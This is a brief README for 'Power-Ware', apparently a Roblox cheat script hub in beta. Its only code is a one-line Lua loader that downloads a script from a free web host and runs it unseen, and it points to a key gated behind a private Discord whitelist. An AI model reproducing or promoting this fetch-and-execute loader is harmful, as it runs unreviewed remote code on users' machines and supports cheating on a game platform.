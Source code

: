 # Power-Ware
Currently in Beta testing

Made by Power-Ware Team
![Power-WareImagenew](https://user-images.githubusercontent.com/107261837/230435435-d75c048f-e334-48f6-a9dc-94fdef15bef3.png)

```lua
loadstring(game:HttpGet("https://powerwareoff.000webhostapp.com/Outcome.lua"))() 
```

```lua
Key Located in Private Discord + must be Whitelisted
```
